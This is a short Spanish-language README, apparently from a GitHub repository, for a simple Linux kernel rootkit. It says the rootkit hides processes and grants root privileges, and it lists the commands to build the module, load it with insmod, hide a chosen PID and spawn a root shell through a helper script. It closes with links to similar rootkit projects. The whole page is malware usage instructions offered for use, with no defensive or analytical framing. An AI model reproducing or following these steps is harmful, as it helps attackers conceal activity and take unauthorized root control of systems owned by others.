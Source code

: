 Rootkit simple para linux

Este rootkit puede ocultar procesos y elevar privilegios como root

//Compilado:

$ sudo apt-get install linux-headers-$(uname -r)
$ cd rootkit
# make

//Instalación:

# insmod rt.ko

//Uso:

//Para ocultar algun proceso
# tools/rtcmd.py hpXXXX    // XXXX -> PID

//Para devolver una terminal como root
# tools/rtcmd.py modulo4root /bin/bash

//Referencias:

~https://github.com/ivyl/rootkit
~http://www.cyberciti.biz/tips/compiling-linux-kernel-module.html
~https://github.com/mrrrgn/simple-rootkit
